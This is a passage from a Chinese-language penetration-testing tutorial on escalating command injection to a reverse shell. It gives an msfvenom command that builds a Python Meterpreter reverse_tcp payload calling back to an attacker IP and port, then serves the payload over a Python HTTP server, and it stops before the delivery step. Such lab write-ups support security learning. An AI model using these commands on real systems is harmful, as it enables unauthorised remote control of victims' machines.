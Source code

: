 ![](img/f7e4118dee1d255677e77e936f155301.png)

# 命令注入:如何运行反向 shell

这种方法有两个主要问题:

*   由于没有交互式控件，您会受到一些限制
*   在现实世界中，这种漏洞很少显示结果，而是“盲目的”

在这一节中，我们可以看到一些更有趣的东西，我们到目前为止看到的似乎有点有限，可能你想看看如何获得目标系统的控制权！

我会告诉你怎么做！

# 运行反向 shell

运行一个反向 shell 可以给你很大的动力，我认为一个 Meterpreter 可以舒服得多，所以作为攻击者让我们准备好我们的工具。

首先，我们需要在 kali 攻击者机器中生成我们的 python 有效负载

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4567 -f raw -o shell-x86.py
```

所以我们告诉有效载荷，我们的受害者必须在端口 *4567* 连接到 IP *10.0.2.15(我们攻击者的目标 IP)* 。

现在我们需要交付我们的有效负载，所以让我们在有效负载的同一个目录中打开一个 HTTP 服务器，让我们简单地用 python 来做:

```
python -m http.server
```
